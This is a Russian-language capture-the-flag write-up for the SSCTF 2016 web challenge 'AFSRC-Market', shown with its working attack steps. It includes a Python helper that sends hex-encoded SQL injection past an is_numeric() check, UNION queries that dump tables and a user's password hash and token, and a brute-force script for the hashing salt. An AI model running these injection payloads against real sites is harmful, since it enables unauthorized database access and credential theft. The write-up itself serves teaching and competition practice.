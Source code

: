 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
-----

![Главная страница][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт, и
происходит редирект на страницу входа.
При нажатии на сами товары проиcходит переход по ссылке `https://security.alipay.com/`.

![Please login~~~~~~][alert_msg]

![Страница входа][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации. Попробуем зарегистрировать нового пользователя.

![Успешная регистрация][reg_success]

![Успешный вход][login_success]

Видим сообщение об успешной регистрации, после которого нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![Главная страница после входа][main_page_after_login]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска, как и раньше, не функционирует.
Заметим, что после авторизации, в cookie было добавлено единственное значение PHPSESSID - идентификатор сессии в PHP.

![Куки][cookies]

Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` - какой-нибудь номер.
После этого окрывается домашняя страница, и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении;
при вводе символов, не являющихся цифрами, выдается сообщение об ошибке. Также допустим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id`, скорее всего, проверяетя перед вставкой в запрос с помощью PHP функции `is_numeric()`.

![Страница пользователя][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третья содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибке.

![Форма пополнения счета][my_info]

![Сообщение об ошибке при отправке формы][add_money_error]

Также внимание привлекает
строка `The Last cost: 0`. Попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX`, при указании верного числа в `id`, `The Last cost` принимает случайное ненулевое значение. Если `id=0x123456` или другому случайному hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то образом зависит от параметра `id`, изменяемом при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex. Попробуем совершить простую "is_numeric bypass" sql-инъекцию через параметр `id`. Для генерации hex-значений воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![Простая sql-инъекция, обходящая is_numeric][try_simple_inj]

![Результат инъекции][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследования напишем функцию на Python, которая будет
отправлять нужный запрос и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![Исходный код формы][form_source]

Видим, что в форме есть скрытый параметр `salt`. Осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся в таблице пользователей.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, где для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и увидим результат: `Salt = 8b76d`. Добавим его в форму пополнения счета.

![Измененная форма][salted_form]

![Флаг][flag_is]

Получаем флаг!

[main_page]: "/SSCTF 2016 quals/web05/images/main_page.png" "Главная страница"
[alert_msg]: /SSCTF 2016 quals/web05/images/alert_msg.png "Предупреждение"
[login_page]: /SSCTF 2016 quals/web05/images/ligon_page.png "Страница входа"
[reg_success]: /SSCTF 2016 quals/web05/images/reg_succ.png "Успешная регистрация"
[try_login]: /SSCTF 2016 quals/web05/images/login.png "Попытка войти"
[login_success]: /SSCTF 2016 quals/web05/images/login_succ.png "Вход прошел успешно"
[main_page_after_login]: /SSCTF 2016 quals/web05/images/main_page_after_login.png "Главная страница после входа"
[cookies]: /SSCTF 2016 quals/web05/images/cookies.png "Cookies"
[my_info]: /SSCTF 2016 quals/web05/images/my_info.png "Форма пополнения счета"
[user_page]: /SSCTF 2016 quals/web05/images/user_page.png "Страница пользователя"
[add_money_error]: /SSCTF 2016 quals/web05/images/add_money_error.png "Ошибка при пополнении счета"
[try_simple_inj]: /SSCTF 2016 quals/web05/images/inj.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: /SSCTF 2016 quals/web05/images/inj_res.png "Результат sql-иъекции"
[form_source]: /SSCTF 2016 quals/web05/images/form_source.png "Исходный код формы пополнения счета"
[salted_form]: /SSCTF 2016 quals/web05/images/salted_form.png "Измененная форма"
[flag_is]: images/flag_is.png "Флаг"
